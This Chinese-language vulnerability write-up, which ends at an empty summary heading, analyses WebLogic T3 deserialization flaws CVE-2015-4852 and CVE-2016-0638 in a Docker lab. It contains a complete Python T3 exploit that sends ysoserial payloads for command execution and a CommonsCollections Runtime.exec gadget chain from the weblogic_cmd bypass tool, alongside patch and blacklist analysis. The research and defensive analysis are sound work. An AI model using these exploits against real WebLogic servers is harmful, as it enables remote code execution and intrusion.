Java安全之Weblogic漏洞分析与利用(上)

- - -

# Java安全之Weblogic漏洞分析与利用(上)

## 1\. 简介

官方介绍：Oracle WebLogic Server 是一个统一的可扩展平台，专用于开发、部署和运行 Java 应用等适用于本地环境和云环境的企业应用。它提供了一种强健、成熟和可扩展的 Java Enterprise Edition (EE) 和 Jakarta EE 实施方式。类似于Tomcat、Jboss等。  
**安装**：  
Windows下的安装教程：[https://www.cnblogs.com/xrg-blog/p/12779853.html](https://www.cnblogs.com/xrg-blog/p/12779853.html)  
Linux下的安装教程：[https://www.cnblogs.com/vhua/p/weblogic\_1.html](https://www.cnblogs.com/vhua/p/weblogic_1.html)  
**其他**：

-   weblogic登录界面默认端口是7001，可在`%weblogic%\user_projects\domains\base_domain\config\config.xml`中修改端口  
    参考：[https://www.cnblogs.com/qlqwjy/p/9685924.html](https://www.cnblogs.com/qlqwjy/p/9685924.html)

## 2\. 反序列化漏洞

在weblogic中反序列化漏洞主要分为两种，一种是基于T3协议的反序列化漏洞，还一种是基于XML的反序列化漏洞，本文主要分析基于T3协议有关的漏洞分析  
基于T3协议的历史漏洞CVE编号有：CVE-2015-4852、CVE-2016-0638、CVE-2016-3510、CVE-2017-3248、CVE-2018-2628、CVE-2018-2893、CVE-2018-3245、CVE-2018-3191等

## 3\. T3协议漏洞分析

### 3.1 前置知识

**T3协议概述**：在RMI通信过程中，正常传输反序列化的数据过程中，通信使用的是JRMP协议，但是在weblogic的RMI通信过程中使用的是T3协议  
**特点**：

-   服务端可以持续追踪监控客户端是否存活，即为心跳机制
-   通过建立一次连接可以将全部数据包传输完成

**数据交换过程**：

-   客户端发送版本号等相关信息
-   服务端返回服务器相关信息
-   客户端发送详细信息
-   服务端再发送详细信息

T3协议建立，可进行数据的传递，相当与TCP握手的过程  
**结构**：  
T3协议中包含请求包头和请求包体两部分  
请求头：  
以下面的CVE-2015-4852中的exp请求为例，第一步客户端向服务器发送请求头，得到服务端的响应，抓包分析：

```plain
sudo tcpdump -i ens160 port 7001 -w t3.pcap
```

```plain
// 表示协议版本号或者数据包类型等信息的字段
t3 12.2.3
// 标识了发送的序列化数据的容量
AS:255
// 标识自己后面发起的t3的协议头长度
HL:19
// Maximum Segment Size
MS:10000000
```

服务端的响应：

```plain
HELO:10.3.6.0.false
AS:2048
HL:19
```

HELO后面会返回一个weblogic版本号  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020162835-a900fe1c-6f22-1.png)  
请求体：  
蓝色部分就是响应，下面部分就是请求体，构造的恶意类就在其中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020163341-5ff1e44c-6f23-1.png)  
请求头+请求体：

-   每个T3数据包中都包含T3协议头
-   数据包的前4个字节标识了数据包的长度
-   序列化数据的头部二进制为aced0005
-   长度标识后面的一个字节标识了该数据包是请求还是响应，01表示请求，02表示响应

根据T3协议的特点，在攻击的时候只需要将恶意的反序列化数据进行拼接即可，参考一张图：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020173752-5729addc-6f2c-1.jpg)

### 3.2 CVE-2015-4852分析

**环境搭建**：  
使用QAX-A-Team的weblogic搭建环境：[https://github.com/QAX-A-Team/WeblogicEnvironment](https://github.com/QAX-A-Team/WeblogicEnvironment)  
同时需要下载JDK和weblogic，并将其对应放入项目的jdk文件夹和weblogic文件夹，版本的兼容性测试在项目的README文件兼容性测试中提到，按照要求下载对应版本即可  
构建docker并运行

```plain
sudo docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=wls1036_generic.jar -t weblogic1036jdk7u21 .
sudo docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic1036jdk7u21 weblogic1036jdk7u21
```

访问[http://10.140.32.159:33401/console/login/LoginForm.jsp，用户名weblogic，密码：qaxateam01](http://10.140.32.159:33401/console/login/LoginForm.jsp%EF%BC%8C%E7%94%A8%E6%88%B7%E5%90%8Dweblogic%EF%BC%8C%E5%AF%86%E7%A0%81%EF%BC%9Aqaxateam01)  
设置远程调试：  
运行对应版本的sh脚本，安装远程调试并从docker中导出jar包

```plain
sudo ./run_weblogic1036jdk7u21.sh
```

在项目目录中会生成middleware文件夹，将其导出放入IDEA中并配置远程调试  
新建一个IDEA项目，导入modules和wlserver，建立远程运行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231031224407-f240dd72-77fb-1.png)  
测试：在weblogic/rjvm/InboundMsgAbbrev.class的readObject函数中下断点，使用[weblogic漏洞扫描工具](https://github.com/rabbitmask/WeblogicScan.git)扫描  
最后能够停在断点处则表示远程调试设置成功

**漏洞复现**：  
exp

```plain
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = '../ysoserial-all.jar'
    popen = subprocess.Popen(['C:/Program Files/Java/jdk1.7.0_80/bin/java.exe', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "10.140.32.159"
    port = 33401
    gadget = "Jdk7u21" #CommonsCollections1 Jdk7u21
    command = "touch /tmp/CVE-2015-4852"

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

执行完成后，查询是否新建CVE-2015-4852文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020163619-bde0f8d6-6f23-1.png)  
命令执行成功

**漏洞分析**：  
在weblogic/rjvm/InboundMsgAbbrev.class的readObject函数中下断点，执行exp

```plain
private Object readObject(MsgAbbrevInputStream var1) throws IOException, ClassNotFoundException {
    // 从输入流var1中读取一个字节，并将其赋值给变量var2，该字节表示序列化对象的类型
    int var2 = var1.read();
    switch (var2) {
        case 0:
            // 需要读取一个自定义的序列化类型的对象
            // 进入这里
            return (new ServerChannelInputStream(var1)).readObject();
        case 1:
            // 表示需要读取一个ASCII字符串
            return var1.readASCII();
        default:
            throw new StreamCorruptedException("Unknown typecode: '" + var2 + "'");
    }
}
```

由于var2的值是0，所以会进入ServerChannelInputStream的readObject函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020163652-d1af58b2-6f23-1.png)  
这里的ServerChannelInputStream是一个内部类，实现如下

```plain
private static class ServerChannelInputStream extends ObjectInputStream implements ServerChannelStream {
    private final ServerChannel serverChannel;

    private ServerChannelInputStream(MsgAbbrevInputStream var1) throws IOException {
        super(var1);
        this.serverChannel = var1.getServerChannel();
    }

    public ServerChannel getServerChannel() {
        return this.serverChannel;
    }

    // 这是ServerChannelInputStream类重写的ObjectInputStream类的方法，它在反序列化Java对象时负责解析类，将类的序列化描述符加工成该类的Class对象
    protected Class resolveClass(ObjectStreamClass var1) throws ClassNotFoundException, IOException {
        // 调用父类的resolveClass方法
        Class var2 = super.resolveClass(var1);
        if (var2 == null) {
            throw new ClassNotFoundException("super.resolveClass returns null.");
        } else {
            ObjectStreamClass var3 = ObjectStreamClass.lookup(var2);
            // 检查解析出来的Java类与要解析的类是否具有相同的serialVersionUID
            if (var3 != null && var3.getSerialVersionUID() != var1.getSerialVersionUID()) {
                throw new ClassNotFoundException("different serialVersionUID. local: " + var3.getSerialVersionUID() + " remote: " + var1.getSerialVersionUID());
            } else {
                return var2;
            }
        }
    }
}
```

其中在构造方法中，调用getServerChannel函数处理T3协议，获取socket相关信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020163724-e48e54b0-6f23-1.png)  
父类(即ObjectInputStream)的resolveClass方法：

```plain
protected Class<?> resolveClass(ObjectStreamClass desc)
    throws IOException, ClassNotFoundException
{
    String name = desc.getName();
    try {
        return Class.forName(name, false, latestUserDefinedLoader());
    } catch (ClassNotFoundException ex) {
        Class<?> cl = primClasses.get(name);
        if (cl != null) {
            return cl;
        } else {
            throw ex;
        }
    }
}
```

其中通过Class.forName，根据类名来获取对应类的Class对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020163756-f7ec42ec-6f23-1.png)  
函数调用链：

```plain
resolveClass:108, InboundMsgAbbrev$ServerChannelInputStream (weblogic.rjvm)
readNonProxyDesc:1610, ObjectInputStream (java.io)
readClassDesc:1515, ObjectInputStream (java.io)
readClass:1481, ObjectInputStream (java.io)
readObject0:1331, ObjectInputStream (java.io)
defaultReadFields:1989, ObjectInputStream (java.io)
defaultReadObject:499, ObjectInputStream (java.io)
readObject:331, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:601, Method (java.lang.reflect)
invokeReadObject:1004, ObjectStreamClass (java.io)
readSerialData:1891, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
defaultReadFields:1989, ObjectInputStream (java.io)
readSerialData:1913, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:308, HashSet (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:57, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:601, Method (java.lang.reflect)
invokeReadObject:1004, ObjectStreamClass (java.io)
readSerialData:1891, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:66, InboundMsgAbbrev (weblogic.rjvm)
read:38, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)
init:213, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:387, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:967, SocketMuxer (weblogic.socket)
readReadySocket:899, SocketMuxer (weblogic.socket)
processSockets:130, PosixSocketMuxer (weblogic.socket)
run:29, SocketReaderRequest (weblogic.socket)
execute:42, SocketReaderRequest (weblogic.socket)
execute:145, ExecuteThread (weblogic.kernel)
run:117, ExecuteThread (weblogic.kernel)
```

接下来就是ysoserial中Jdk7u21链的部分，这里可以更改exp中的参数，使用CC链也可  
这里将gadget参数更改为CommonsCollections1，使用CC1链  
函数调用栈：

```plain
transform:125, InvokerTransformer (org.apache.commons.collections.functors)
transform:122, ChainedTransformer (org.apache.commons.collections.functors)
get:157, LazyMap (org.apache.commons.collections.map)
invoke:69, AnnotationInvocationHandler (sun.reflect.annotation)
entrySet:-1, $Proxy96 (com.sun.proxy)
readObject:346, AnnotationInvocationHandler (sun.reflect.annotation)
invoke:-1, GeneratedMethodAccessor89 (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:601, Method (java.lang.reflect)
invokeReadObject:1004, ObjectStreamClass (java.io)
readSerialData:1891, ObjectInputStream (java.io)
readOrdinaryObject:1796, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:66, InboundMsgAbbrev (weblogic.rjvm)
read:38, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)
init:213, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:387, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:967, SocketMuxer (weblogic.socket)
readReadySocket:899, SocketMuxer (weblogic.socket)
processSockets:130, PosixSocketMuxer (weblogic.socket)
run:29, SocketReaderRequest (weblogic.socket)
execute:42, SocketReaderRequest (weblogic.socket)
execute:145, ExecuteThread (weblogic.kernel)
run:117, ExecuteThread (weblogic.kernel)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231020164002-42e80ae2-6f24-1.png)

**修复**：  
在出现这个漏洞之后，weblogic增加了一些安全防护，防护方案主要从resolveClass入手，如图：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020173055-5ea82a08-6f2b-1.jpg)  
由上面可知，resolveClass函数的作用是从类序列化描述符获取类的Class对象，而具体的防御措施就是在这个函数中增加一个检查，检测序列化描述符是否出现在设置的黑名单中

**参考**：  
[https://xz.aliyun.com/t/10563](https://xz.aliyun.com/t/10563)  
[https://xz.aliyun.com/t/9216](https://xz.aliyun.com/t/9216)

### 3.3 CVE-2016-0638分析

**环境搭建**：  
在CVE-2015-4852环境的基础上打上补丁p20780171\_1036\_Generic和p22248372\_1036012\_Generic，命令如下：

```plain
sudo docker cp ./p20780171_1036_Generic weblogic1036jdk7u21:/p20780171_1036_Generic
sudo docker cp ./p22248372_1036012_Generic  weblogic1036jdk7u21:/p22248372_1036012_Generic

sudo docker exec -it weblogic1036jdk7u21 /bin/bash
cd /u01/app/oracle/middleware/utils/bsu
mkdir cache_dir
vi bsu.sh   编辑MEM_ARGS参数为1024
cp /p20780171_1036_Generic/* cache_dir/
./bsu.sh -install -patch_download_dir=/u01/app/oracle/middleware/utils/bsu/cache_dir/ -patchlist=EJUW -prod_dir=/u01/app/oracle/middleware/wlserver/

cp /p22248372_1036012_Generic/* cache_dir/
./bsu.sh -install -patch_download_dir=/u01/app/oracle/middleware/utils/bsu/cache_dir/ -patchlist=ZLNA  -prod_dir=/u01/app/oracle/middleware/wlserver/ –verbose
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231020165028-b7b52246-6f25-1.png)  
重启weblogic服务

```plain
/u01/app/oracle/Domains/ExampleSilentWTDomain/bin/startWebLogic.sh
```

有可能使用上面命令无法重启weblogic服务，可以使用stopWeblogic.sh先关闭服务，此时容器应该也会关闭，重新启动容器即可  
测试补丁是否打成功，继续使用CVE-2015-4852的exp，观察是否创建文件  
设置远程调试：

```plain
mkdir wlserver1036
mkdir coherence_3.7
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/modules ./wlserver1036
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/wlserver/server/lib ./wlserver1036
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/coherence_3.7/lib ./coherence_3.7/lib
```

将这些包导入IDA，设置远程IP和端口，详细过程参考CVE-2015-4852远程配置

**补丁分析**：  
分析InboundMsgAbbrev.class的resolveClass函数

```plain
protected Class resolveClass(ObjectStreamClass descriptor) throws ClassNotFoundException, IOException {
    String className = descriptor.getName();
    // 该类名在ClassFilter.isBlackListed()方法中被列入黑名单，则抛出InvalidClassException异常，表示反序列化未被授权
    if (className != null && className.length() > 0 && ClassFilter.isBlackListed(className)) {
        throw new InvalidClassException("Unauthorized deserialization attempt", descriptor.getName());
    } else {
        // 如果className不在黑名单中，则调用父类的resolveClass方法来解析该类
        Class c = super.resolveClass(descriptor);
        if (c == null) {
            throw new ClassNotFoundException("super.resolveClass returns null.");
        } else {
            ObjectStreamClass localDesc = ObjectStreamClass.lookup(c);
            if (localDesc != null && localDesc.getSerialVersionUID() != descriptor.getSerialVersionUID()) {
                throw new ClassNotFoundException("different serialVersionUID. local: " + localDesc.getSerialVersionUID() + " remote: " + descriptor.getSerialVersionUID());
            } else {
                return c;
            }
        }
    }
}
```

因此这里重点需要关注ClassFilter.isBlackListed函数，在CVE-2015-4852的研究中也提到，在防御过程中可以从resolveClass入手，在这两个补丁中则增加对传入的类名的判断。

继续使用CVE-2015-4852的exp进行测试，在weblogic/rjvm/InboundMsgAbbrev.class的resolveClass函数中下断点，F7单步进入来到weblogic/rmi/ClassFilter.class的isBlackListed函数，这个函数主要作用是判断传进来的类名是否在黑名单中

```plain
public static boolean isBlackListed(String className) {
    // 检查className的长度是否大于0，并且是否在BLACK_LIST（一个常量Set集合）中
    if (className.length() > 0 && BLACK_LIST.contains(className)) {
        return true;
    } else {
        String pkgName;
        try {
            // 找到最后一个“.”（点号）的位置，获取类名的包名部分
            pkgName = className.substring(0, className.lastIndexOf(46));
        } catch (Exception var3) {
            return false;
        }
        // 如果获取包名成功，并且包名的长度大于0，那么再次检查pkgName是否在BLACK_LIST中
        return pkgName.length() > 0 && BLACK_LIST.contains(pkgName);
    }
}
```

其中BLACK\_LIST包含的值如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170224-627a1884-6f27-1.png)  
这个HashSet的由来是在调用ClassFilter中的静态类方法前，会先执行static构造方法，将这些设定的类名存入BLACK\_LIST中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102154609-e2db2db6-7953-1.jpg)

这两个if判断应该与某个环境变量的设置有关，具体实现不再关注  
在CVE-2015-4852的攻击过程中，会使用CC1链，里面用到了`org .apache.commons.collections.functors.ChainedTransformer`，这个类的包名在黑名单中，因此这里会返回true，从而导致在resolveClass中抛出异常  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170244-6e9031e4-6f27-1.png)

ClassFilter.isBlackListed方法同样作用于MsgAbbrevInputStream的resolveClass方法，对其传入的类名进行了同样的黑名单过滤。

```plain
protected Class resolveClass(ObjectStreamClass descriptor) throws InvalidClassException, ClassNotFoundException {
    // 通过synchronized关键字锁定了lastCTE对象，以保证线程安全
    synchronized(this.lastCTE) {
        // 获取类名
        String className = descriptor.getName();
        // 如果className不为空，并且其长度大于0，并且该类名在ClassFilter.isBlackListed()方法中被列入黑名单，则抛出InvalidClassException异常
        if (className != null && className.length() > 0 && ClassFilter.isBlackListed(className)) {
            throw new InvalidClassException("Unauthorized deserialization attempt", descriptor.getName());
        }
        // 获取当前线程的类加载器ClassLoader
        ClassLoader ccl = RJVMEnvironment.getEnvironment().getContextClassLoader();
        // 如果lastCTE对象中的clz为null，或者lastCTE对象中的ccl不等于当前线程的类加载器ccl，则重新加载类
        if (this.lastCTE.clz == null || this.lastCTE.ccl != ccl) {
            String classname = this.lastCTE.descriptor.getName();
            // 如果是PreDiablo的对等体，则调用JMXInteropHelper.getJMXInteropClassName()方法获取Interop的类名
            if (this.isPreDiabloPeer()) {
                classname = JMXInteropHelper.getJMXInteropClassName(classname);
            }
            // 从PRIMITIVE_MAP（一个Map集合）中获取classname对应的Class对象
            this.lastCTE.clz = (Class)PRIMITIVE_MAP.get(classname);
            // 如果获取失败，则调用Utilities.loadClass()方法，加载classname对应的Class对象
            if (this.lastCTE.clz == null) {
                this.lastCTE.clz = Utilities.loadClass(classname, this.lastCTE.annotation, this.getCodebase(), ccl);
            }

            this.lastCTE.ccl = ccl;
        }

        this.lastClass = this.lastCTE.clz;
    }

    return this.lastClass;
}
```

**注**：MsgAbbrevInputStream用于反序列化RMI请求，将请求参数和返回结果转换为Java对象。InboundMsgAbbrev用于处理入站RMI请求，检查和验证请求的合法性，并保证请求的安全性和可靠性  
补丁作用位置：

```plain
weblogic.rjvm.InboundMsgAbbrev.class::ServerChannelInputStream
weblogic.rjvm.MsgAbbrevInputStream.class
weblogic.iiop.Utils.class
```

既然在ServerChannelInputStream与MsgAbbrevInputStream中都存在黑名单过滤，则

**漏洞复现**：  
使用工具[weblogic\_cmd](https://github.com/5up3rc/weblogic_cmd.git)来绕过补丁进行攻击  
使用IDEA打开，使用JDK1.6，配置运行

```plain
-H "10.140.32.159" -C "touch /tmp/cve-2016-0638" -B -os linux
```

如果端口不是7001，可以使用-P参数，也可以在源码中直接修改  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170316-81cce07c-6f27-1.png)  
运行程序，如果出现`sun.tools.asm`包未找到，手动添加jdk6中的tools.jar包  
在docker中查询是否命令执行成功  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170335-8d3c0cc6-6f27-1.png)  
创建文件成功，成功绕过补丁

**漏洞分析**：  
这里分两步进行漏洞的分析，第一：此工具如何生成payload；第二：生成的payload如何绕过防护成功执行  
第一：如何生成payload  
观察main函数中的代码

```plain
executeBlind(host, port);
```

进入此函数

```plain
public static void executeBlind(String host, String port) throws Exception {

    if (cmdLine.hasOption("B") && cmdLine.hasOption("C")) {
        System.out.println("执行命令:" + cmdLine.getOptionValue("C"));
        WebLogicOperation.blindExecute(host, port, cmdLine.getOptionValue("C"));
        System.out.println("执行blind命令完成");
        System.exit(0);
    }

}
```

这里的输出步骤正是执行一次控制台输出的信息，因此关键信息在WebLogicOperation.blindExecute中

```plain
public static void blindExecute(String host, String port, String cmd) throws Exception {
    String[] cmds = new String[]{cmd};
    // 根据操作系统选择执行命令的程序
    if (Main.cmdLine.hasOption("os")) {
        if (Main.cmdLine.getOptionValue("os").equalsIgnoreCase("linux")) {
            cmds = new String[]{"/bin/bash", "-c", cmd};
        } else {
            cmds = new String[]{"cmd.exe", "/c", cmd};
        }
    }
    // 关键步骤
    // 将需要执行的命令传入该函数，生成payload
    byte[] payload = SerialDataGenerator.serialBlindDatas(cmds);
    // 将payload发送至目标weblogic
    T3ProtocolOperation.send(host, port, payload);
}
```

生成payload的关键又在于SerialDataGenerator.serialBlindDatas方法

```plain
public static byte[] serialBlindDatas(String[] execArgs) throws Exception {
    return serialData(blindExecutePayloadTransformerChain(execArgs));
}
```

这里的命令执行参数被两层方法包裹，里面那层有关是与CC链有关，外面那层根据方法名应该是将payload的序列化后返回  
先看blindExecutePayloadTransformerChain方法

```plain
private static Transformer[] blindExecutePayloadTransformerChain(String[] execArgs) throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                    String.class, Class[].class}, new Object[]{
                    "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                    Object.class, Object[].class}, new Object[]{
                    null, new Object[0]}),
            new InvokerTransformer("exec",
                    new Class[]{String[].class}, new Object[]{execArgs}),
            new ConstantTransformer(new HashSet())};
    return transformers;
}
```

果然这是一条TransformerChain，再看serialData函数

```plain
private static byte[] serialData(Transformer[] transformers) throws Exception {
    final Transformer transformerChain = new ChainedTransformer(transformers);
    final Map innerMap = new HashMap();
    // 初始化map 设置laymap
    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    InvocationHandler handler = (InvocationHandler) Reflections
            .getFirstCtor(
                    "sun.reflect.annotation.AnnotationInvocationHandler")
            .newInstance(Override.class, lazyMap);

    final Map mapProxy = Map.class
            .cast(Proxy.newProxyInstance(SerialDataGenerator.class.getClassLoader(),
                    new Class[]{Map.class}, handler));

    handler = (InvocationHandler) Reflections.getFirstCtor(
            "sun.reflect.annotation.AnnotationInvocationHandler")
            .newInstance(Override.class, mapProxy);

    Object _handler = BypassPayloadSelector.selectBypass(handler);
    return Serializables.serialize(_handler);
}
```

其实这些过程很明显是CC1链的构造过程，与众不同的是倒数第二句代码BypassPayloadSelector.selectBypass，进入该函数

```plain
public static Object selectBypass(Object payload) throws Exception {

    if (Main.TYPE.equalsIgnoreCase("marshall")) {
        payload = marshalledObject(payload);
    } else if (Main.TYPE.equalsIgnoreCase("streamMessageImpl")) {
        payload = streamMessageImpl(Serializables.serialize(payload));
    }
    return payload;
}
```

这里需要根据TYPE选择对应的处理方法，先看TYPE=streamMessageImpl的处理方法，他先将我们前面构造好的payload进行序列化，然后使用streamMessageImpl函数进行处理

```plain
public static Object streamMessageImpl(byte[] object) throws Exception {

    StreamMessageImpl streamMessage = new StreamMessageImpl();
    streamMessage.setDataBuffer(object, object.length);
    return streamMessage;
}
```

这里创建了一个StreamMessageImpl对象，并通过setDataBuffer方法将序列化后的数据存入该对象的buffer属性，然后返回StreamMessageImpl对象  
调用链：

```plain
setDataBuffer:906, StreamMessageImpl (weblogic.jms.common)
streamMessageImpl:29, BypassPayloadSelector (com.supeream.weblogic)
selectBypass:38, BypassPayloadSelector (com.supeream.weblogic)
serialData:45, SerialDataGenerator (com.supeream.serial)
serialBlindDatas:95, SerialDataGenerator (com.supeream.serial)
blindExecute:43, WebLogicOperation (com.supeream.weblogic)
executeBlind:62, Main (com.supeream)
main:198, Main (com.supeream)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170402-9d2cf302-6f27-1.png)  
然后再回到serialData函数中，执行最后一条语句，返回对StreamMessageImpl对象序列化后的数据  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170428-acc7a5aa-6f27-1.png)  
最后返回blindExecute方法，执行最后一句，将payload按照T3协议发送至目标  
如果在BypassPayloadSelector.selectBypass函数中，TYPE是marshall，会进入marshalledObject方法

```plain
private static Object marshalledObject(Object payload) {
    MarshalledObject marshalledObject = null;
    try {
        marshalledObject = new MarshalledObject(payload);
    } catch (IOException e) {
        e.printStackTrace();
    }
    return marshalledObject;
}
```

此处将payload封装进了marshalledObject对象，MarshalledObject是Java标准库中的一个类，用于将Java对象序列化为字节数组，并能够在网络上传输或存储在磁盘上，后面步骤和上面一致，对该对象进行序列化

第二：生成的payload如何成功利用  
在ServerChannelInputStream.resolveClass下断点，使用weblogic\_cmd工具向目标发送payload  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170453-bb4c379e-6f27-1.png)  
此时的className正是序列化的第一层，指向weblogic.jms.common.StreamMessageImpl，此类名不在黑名单中，故可以绕过isBlackListed方法

之所以采用StreamMessageImpl，是**因为当StreamMessageImpl类的readExternal执行时，会反序列化传入的参数并调用该参数反序列化后对应类的这个readObject方法**  
在StreamMessageImpl类中的readExternal下断点  
函数调用栈：

```plain
readExternal:1396, StreamMessageImpl (weblogic.jms.common)
readExternalData:1835, ObjectInputStream (java.io)
readOrdinaryObject:1794, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:69, InboundMsgAbbrev (weblogic.rjvm)
read:41, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)
init:215, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:394, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:960, SocketMuxer (weblogic.socket)
readReadySocket:897, SocketMuxer (weblogic.socket)
processSockets:130, PosixSocketMuxer (weblogic.socket)
run:29, SocketReaderRequest (weblogic.socket)
execute:42, SocketReaderRequest (weblogic.socket)
execute:145, ExecuteThread (weblogic.kernel)
run:117, ExecuteThread (weblogic.kernel)
```

该函数如下：

```plain
public void readExternal(ObjectInput var1) throws IOException, ClassNotFoundException {
    super.readExternal(var1);
    byte var2 = var1.readByte();
    byte var3 = (byte)(var2 & 127);
    if (var3 >= 1 && var3 <= 3) {
        switch (var3) {
            // 如果消息类型为1，则表示该消息是一个普通的消息。该方法将从ObjectInput中读取PayloadStream对象，并将其用ObjectInputStream进行反序列化，最后将反序列化后的Java对象通过writeObject方法写入消息中
            case 1:
                // 从ObjectInput对象中读取PayloadStream对象，并将其作为InputStream对象传递给createPayload方法
                this.payload = (PayloadStream)PayloadFactoryImpl.createPayload((InputStream)var1);
                // 将从PayloadStream对象中获取一个BufferInputStream对象，并将其作为参数传递给ObjectInputStream类的构造函数
                BufferInputStream var4 = this.payload.getInputStream();
                ObjectInputStream var5 = new ObjectInputStream(var4);
                this.setBodyWritable(true);
                this.setPropertiesWritable(true);

                try {
                    while(true) {
                        this.writeObject(var5.readObject());
                    }
                } catch (EOFException var9) {
                    try {
                        this.reset();
                        this.setPropertiesWritable(false);
                        PayloadStream var7 = this.payload.copyPayloadWithoutSharedStream();
                        this.payload = var7;
                    } catch (JMSException var8) {
                        JMSClientExceptionLogger.logStackTrace(var8);
                    }
                } catch (MessageNotWriteableException var10) {
                    JMSClientExceptionLogger.logStackTrace(var10);
                } catch (javax.jms.MessageFormatException var11) {
                    JMSClientExceptionLogger.logStackTrace(var11);
                } catch (JMSException var12) {
                    JMSClientExceptionLogger.logStackTrace(var12);
                }
                break;
            //如果消息类型为3，则表示该消息是一个压缩消息。如果消息的高位字节不为0，则表示消息是经过压缩的，该方法将调用readExternalCompressedMessageBody方法读取压缩后的消息内容
            case 3:
                if ((var2 & -128) != 0) {
                    this.readExternalCompressedMessageBody(var1);
                    break;
                }
            // 如果消息类型为2，则表示该消息是一个流消息。该方法将从ObjectInput中读取PayloadStream对象，并将其作为消息的PayloadStream对象进行设置
            case 2:
                this.payload = (PayloadStream)PayloadFactoryImpl.createPayload((InputStream)var1);
        }

    } else {
        throw JMSUtilities.versionIOException(var3, 1, 3);
    }
}
```

其中var4是正常反序列化后的数据  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231020170516-c951767e-6f27-1.png)  
其buf的值和第一次payload反序列化后是一样的  
然后将var4实例化成一个ObjectInputStream对象，即var5，在try中，var5调用了readObject方法，即实现了真实payload的反序列化

**总结**：  
